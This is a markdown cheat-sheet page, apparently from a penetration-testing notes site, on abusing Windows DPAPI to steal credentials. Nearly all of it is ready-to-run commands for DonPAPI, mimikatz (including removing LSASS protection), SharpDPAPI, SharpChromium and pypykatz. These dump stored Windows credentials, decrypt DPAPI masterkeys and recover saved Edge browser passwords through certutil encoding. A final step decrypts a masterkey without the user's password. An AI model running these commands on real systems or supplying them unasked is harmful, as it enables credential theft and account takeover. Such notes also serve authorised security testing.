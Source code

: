 ```yaml
---
title: "DPAPI"
date: 2024-7-31
tags: ["DPAPI", "enum", "Windows", "password", "credentials", "DonPAPI"]
---
```


---
### Abuse #1: Auto dump (From Linux)

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
DonPAPI collect -d <DOMAIN> -u <USERNAME> -p <PASSWORD> -t <TARGET>
```

<small>*Ref: [DonPAPI](https://github.com/login-securite/DonPAPI)*</small>

</div>

{{< /tabcontent >}}

### Abuse #1: Auto dump (From Windows)

{{< tab set2 tab1 active >}}mimikatz{{< /tab >}}
{{< tab set2 tab2 >}}SharpDPAPI{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Info Gathering

<div>

```powershell
cmd /c "dir /S /AS C:\Users\<TARGET_UESR>\AppData\Local\Microsoft\Vault & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Local\Microsoft\Credentials & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Local\Microsoft\Protect & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Vault & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Credentials & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Protect"
```

</div>

#### 2. Secrets Dump

<div>

```powershell
mimikatz.exe "token::elevate" "!+" "!processprotect /process:lsass.exe /remove" "dpapi::cred /in:C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Credentials\<CREDENTIALS_HASH>"' '"dpapi::masterkey /in:C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Protect\<SID>\<PROTECT_HASH> /sid:<SID> /password:<PASSWORD> /protected"' '"dpapi::cred /in:C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Credentials\<CREDENTIALS_HASH>"' "exit"
```

</div>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

<div>

```bash
# Run as system
.\SharpDPAPI.exe machinetriage
```

```bash
# Run as user
.\SharpDPAPI.exe credentials /password:<PASSWORD>
```

</div>

{{< /tabcontent >}}

<br>

---

### Abuse #2: Browser Saved Creds

{{< tab set3 tab1 active >}}Auto{{< /tab >}}
{{< tab set3 tab2 >}}Manual{{< /tab >}}
{{< tabcontent set3 tab1 >}}

<div>

```powershell
.\SharpChromium.exe logins
```

</div>

<small>*Ref: [SharpChromium.exe](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_Any/SharpChromium.exe)*</small>

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

#### 1. Prepare logindata and localstate file

<div>

```powershell
# Get Local State json file, copy and paste to local Linux
type "C:\Users\<USER>\appdata\local\microsoft\edge\User Data\Local State"
```

```powershell
# Get Login Data binary file
certutil -encode "C:\Users\<USER>\appdata\local\microsoft\edge\User Data\Default\Login Data" C:\ProgramData\logindata
```

```powershell
# Copy and paste to local Linux
type C:\ProgramData\logindata
```

```bash
# Base64 decode
cat logindata_b64 | base64 -d > logindata
```

```bash
# Extract key from local state
cat localstate | jq -r .os_crypt.encrypted_key | base64 -d | cut -c6- > blob
```

</div>

<div>

```bash
# Get masterkey_guid
pypykatz dpapi describe blob blob
```

</div>

<small>*Ref: [pypykatz](https://github.com/skelsec/pypykatz)*</small>

#### 2. Retrieve Keys

<div>

```powershell
# Get master key
certutil -encode "C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<SID>\<MASTERKEY_GUID>" C:\ProgramData\<MASTERKEY_GUID>
```

```powershell
# Copy and paste to local Linux
type C:\ProgramData\<MASTERKEY_GUID>
```

```bash
# Base64 decode
cat masterkey_guid_b64 | base64 -d > masterkey_guid
```

</div>

#### 3. Decrypt

<div>

```bash
pypykatz dpapi prekey password <SID> <USER_PASSWORD> | tee pkf
```

```bash
pypykatz dpapi masterkey <MASTERKEY_GUID_FILE> pkf -o mkf
```

```bash
pypykatz dpapi chrome --logindata logindata mkf localstate
```

</div>

{{< /tabcontent >}}

<br>

---

### Abuse #3: Decrpyt Masterkey without password

{{< tab set4 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set4 tab1 >}}

<div>

```powershell
# Take note: Last key
.\mimikatz.exe "dpapi::masterkey /in:C:\users\<USER>\appdata\roaming\microsoft\protect\<SID>\<MASTERKEY_GUID> /rpc" exit
```

```powershell
# Decrypt
.\mimikatz.exe "dpapi::cred /in:C:\users\<USER>\appdata\roaming\microsoft\protect\<SID>\<MASTERKEY_GUID> /masterkey:<KEY>" exit
```

</div>

{{< /tabcontent >}}

<br>